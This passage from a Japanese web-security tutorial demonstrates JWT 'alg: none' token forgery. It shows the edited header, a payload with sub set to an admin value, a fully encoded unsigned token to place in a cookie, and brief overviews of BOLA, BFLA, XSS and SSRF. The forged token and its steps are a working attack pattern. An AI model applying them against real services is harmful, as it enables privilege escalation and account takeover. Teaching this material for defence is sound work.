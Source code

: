 ヘッダーの`alg`を`RS256`から`none`に書き換えます。
攻撃者は、ヘッダーの`alg`を`none`に変更し、ペイロードの`sub`を管理者を示す値（例: 1）に書き換えることで、不正なトークンを生成します。

```json
{
  "typ": "JWT",
  "alg": "none",
  "kid": "qkA6IUTWTMKYtim4FIqN8QMclw87uNm20u96Okq8t_0"
}
```
```json
{
  "sub": 1,
  "userid": "spa-test-0310",
  "email": "spa-test-0310@gmail.com",
  "icon": "dummy-icon.png",
  "is_super": 0,
  "iat": 1752888450,
  "exp": 1753752450
}
```
再度エンコードする
```
eyJ0eXAiOiJKV1QiLCJhbGciOiJub25lIiwia2lkIjoicWtBNklVVFdUTUtZdGltNEZJcU44UU1jbHc4N3VObTIwdTk2T2txOHRfMCJ9.eyJzdWIiOjEsInVzZXJpZCI6InNwYS10ZXN0LTAzMTAiLCJlbWFpbCI6InNwYS10ZXN0LTAzMTBAZ21haWwuY29tIiwiaWNvbiI6ImR1bW15LWljb24ucG5nIiwiaXNfc3VwZXIiOjAsImlhdCI6MTc1Mjg4ODQ1MCwiZXhwIjoxNzUzNzUyNDUwfQ.
```

ブラウザの開発者ツールなどを利用して、Cookieの値を生成した不正なトークンに書き換えます。

サーバー側の実装によっては、署名検証時に`kid`のチェックが不十分な場合、`alg`が`none`に改ざんされた署名なしのトークンを受け入れてしまうことがあります。

- https://qiita.com/ockeghem/items/cc0b8ab74f46834d055b

### オブジェクトレベルの認可不備（BOLA）
OWASP API Security Top 10でも指摘されているように、APIにおける認可不備は非常に重大な問題です。
リクエスト内のパラメータやURLに含まれるIDを別のユーザーのものに書き換えることで、他人の情報を不正に取得できてしまう脆弱性です。

### オブジェクトプロパティレベルの認可不備
API側でリクエスト内の特定のプロパティに対する認可チェックが不十分な場合、本来変更が許可されていないプロパティ（例: `role`など）を不正に書き換えることで、オブジェクトを不正に操作できてしまいます。

### 機能レベルの認可不備（BFLA）
権限チェックが不十分なことにより、一般ユーザーが管理者向けのAPI（例: ユーザー削除や設定変更など）を実行できてしまう脆弱性です。

### XSS
XSSは一般的に「蓄積型」「反射型」「DOM-Based型」の3つに分類されますが、DOM-Based型は他の2つの特性を併せ持つ場合もあり、分類が重なることもあります。
XSS攻撃では、改行コードや文字エンコーディングの解釈差異を利用してサニタイズ処理を回避される可能性があるため、出力時のエスケープ処理には注意が必要です。
近年のWebアプリケーションでは、`HttpOnly`属性によりCookieを盗むことが難しくなっていますが、被害者のブラウザ上で任意のAPIを呼び出せる点がXSSの大きな脅威です。

### SSRF
攻撃者は、公開サーバーを踏み台にして、直接アクセスできない内部ネットワーク（社内ネットワークやクラウド環境など）のサーバーへリクエストを送信できてしまいます。
